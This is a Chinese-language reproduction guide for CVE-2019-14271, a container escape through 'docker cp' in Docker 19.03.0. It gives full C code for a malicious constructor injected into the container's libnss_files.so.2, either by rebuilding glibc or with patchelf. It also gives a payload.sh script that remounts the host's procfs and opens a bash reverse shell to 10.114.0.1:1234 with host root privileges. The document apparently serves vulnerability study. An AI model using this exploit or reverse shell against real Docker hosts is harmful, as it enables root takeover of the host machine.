

# CVE-2019-14271 复现

## 环境

* Linux: Ubuntu 18.04
* Docker: 19.03.0

## 步骤

首先创建一个容器，新的镜像似乎不兼容当前版本的Docker，所以需要选择旧一些的版本，这里我用的是Ubuntu:bionic-20221215。接下来修改 **/lib/x86_64-linux-gnu/libnss_files.so.2** ，有两种方法，一是下载glibc的源码，修改以后编译，二是直接用patchelf给现有的so文件添加library。在此之前先把原来的so文件备份为 **/origin.so**。

### 方法一

查看容器中libnss的版本，下载对应版本的源码，libnss_files.so.2本身是个软链接，指向的文件名为libnss_files-2.27.so，因此容器中的版本是2.27，从[http://ftp.gnu.org/gnu/glibc/glibc-2.27.tar.bz2](http://ftp.gnu.org/gnu/glibc/glibc-2.27.tar.bz2)下载，解压后会出现一个glibc-2.27目录。编译不能在这个目录下进行，需要在这个目录外创建一个新目录，假设为glibc-build，然后在该目录下再创建一个prefix目录。假设glibc-2.27和glibc-build都在根目录下。

修改 **glibc-2.27/nss/nss_files/files-init.c** ，添加如下内容：

```c
#include <stdio.h>
#include <stdlib.h>
__attribute__ ((constructor)) void exp_func()
{
    FILE * proc_file = fopen("/proc/self/exe", "r");
    if (proc_file != NULL)
    {
        fclose(proc_file);
        return;
    }
    rename("/origin.so", "/lib/x86_64-linux-gnu/libnss_files.so.2");
    system("/payload.sh");
    return;
}
```

开始编译：

```shell
cd /glibc-build
/glibc-2.27/configure --prefix=/glibc-build/prefix --disable-werror
make
```

最后生成的文件在 **/glibc-build/nss/libnss_files.so** ，把编译好的文件重命名并放到对应位置。

### 方法二

先用apt安装patchelf，然后编写[exp.c](exp.c)，内容跟上面在files-init.c中添加的内容一样：

```c
#include <stdio.h>
#include <stdlib.h> 
  
__attribute__ ((constructor)) void exp_func()
{
    FILE * proc = fopen("/proc/self/exe", "r");
    if (proc != NULL)
    {
        fclose(proc);
        return;
    }
    rename("/origin.so", "/lib/x86_64-linux-gnu/libnss_files.so.2");
    system("/payload.sh");
    return;
}
```

编译exp并patch到so文件里：

```shell
gcc -shared -fPIC /exp.c -o /exp.so
patchelf --add-needed /exp.so /lib/x86_64-linux-gnu/libnss_files.so.2
```

通过ldd来查看patch的结果，可以看到多出了一个/exp.so。：

```shell
ldd /lib/x86_64-linux-gnu/libnss_files.so.2
```


---

以上是修改so的两种方式。接下来编写[payload.sh](payload.sh)：

```shell
#!/bin/bash
umount /proc
mount -t proc none /proc
bash -i >& /dev/tcp/10.114.0.1/1234 0>&1
```

回到宿主，通过 **docker cp** 随便从容器中复制一个文件到宿主，即可触发payload的运行，上面的payload会将宿主的procfs挂载到容器中，并以宿主的root权限反弹shell，在监听反弹的终端里进入 **/proc/1/root/** 目录即可进入宿主的根目录。



